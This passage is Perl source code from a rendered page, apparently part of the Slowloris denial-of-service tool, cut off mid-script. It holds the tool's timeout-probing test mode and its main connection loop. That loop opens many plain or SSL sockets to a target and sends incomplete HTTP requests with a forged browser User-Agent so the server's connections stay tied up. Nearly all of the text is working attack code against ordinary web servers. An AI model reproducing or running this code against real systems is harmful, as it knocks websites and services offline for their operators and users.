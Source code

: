 print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {         doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (                         $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;                     }                 }                 if ( $working[$z] == 1 ) {                     if ($cache) {                         $rand = "?" . int( rand(99999999999999) );                     }                     else {                         $rand = "";                     }                     my $primarypayload =                         "$method /$rand HTTP/1.1\r\n"                       . "Host: $sendhost\r\n"                       . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR